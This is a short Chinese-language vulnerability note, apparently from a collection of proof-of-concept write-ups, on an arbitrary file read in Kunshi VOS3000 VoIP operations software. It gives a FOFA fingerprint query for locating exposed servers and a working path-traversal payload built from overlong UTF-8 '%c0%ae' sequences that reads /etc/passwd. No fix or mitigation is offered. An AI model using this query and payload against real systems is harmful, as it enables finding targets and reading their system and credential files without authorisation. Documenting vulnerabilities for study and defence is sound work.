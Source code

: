 # 昆石网络VOS3000任意文件读取漏洞

# 一、漏洞简介
昆石网络VOS3000是一款功能全面、性能稳定的VoIP运营支撑系统，适用于各类 电信级 运营业务，尤其适合中小规模VoIP运营业务的需求。无论是在云服务器还是物理机上，它都能完美运行，为运营商提供高效、稳定、可靠的电信级运营服务。昆石网络VOS3000任意文件读取，攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 昆石网络VOS3000

# 三、资产测绘
+ fofa`<font style="color:rgb(199, 37, 78);">body="VOS3000, VoIP, VoIP运营支撑系统, 软交换"</font>`
+ 特征

![1717167745472-1ad070b4-b932-41cf-ba11-bdad2f18a712.png](./img/NU8GNq2UNNv4VWQF/1717167745472-1ad070b4-b932-41cf-ba11-bdad2f18a712-105863.png)

# 四、漏洞复现
```rust
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![1717167837710-837017ab-620b-46fe-aaec-fdf3664c4680.png](./img/NU8GNq2UNNv4VWQF/1717167837710-837017ab-620b-46fe-aaec-fdf3664c4680-357508.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qnkhfqg0258ep6b5>